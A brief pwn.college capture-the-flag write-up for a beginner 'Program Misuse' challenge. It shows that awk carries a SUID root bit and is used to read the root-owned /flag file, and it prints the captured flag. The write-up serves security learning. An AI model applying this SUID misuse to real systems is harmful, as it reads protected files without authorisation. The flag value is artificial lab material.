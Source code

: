 # Challenge Name: awk
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/awk`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/awk
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/awk
```

- The `s` in `-rws` indicates it's a SUID binary.
- `awk` runs with **root privileges**.

## 🚀 Exploitation

The `awk` command is a powerful text-processing tool in Linux, ideal for parsing, filtering, and formatting structured text, especially columns.


```bash
awk '{print}' /flag
```

Output:
```
pwn.college{IEoiRgfHGotfmjKhSx1ghEegh-N.dZzNxwSM0IzMyEzW}
```
